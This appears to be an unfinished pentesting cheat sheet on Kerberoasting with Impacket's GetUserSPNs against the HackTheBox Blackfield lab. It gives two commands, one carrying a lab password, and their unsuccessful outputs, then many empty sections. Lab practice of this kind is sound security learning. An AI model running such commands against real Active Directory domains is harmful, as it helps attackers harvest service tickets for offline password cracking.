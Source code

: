 # Kerberoasting with GetUserSPNs

### [Kerberoast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

> The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts.

[Powershell - List all SPNs in Active Directory](https://techexpert.tips/powershell/powershell-list-all-spns-active-directory/)

### TLDR
```
GetUserSPNs BLACKFIELD.local/
GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
```
### Without creds; HTB Blackfield
```
$ GetUserSPNs BLACKFIELD.local/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
```

### With creds; HTB Blackfield
```
$ GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
Impacket v0.11.0 - Copyright 2023 Fortra

No entries found!
```
### 
```

```

### 
```

```
### Examples 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
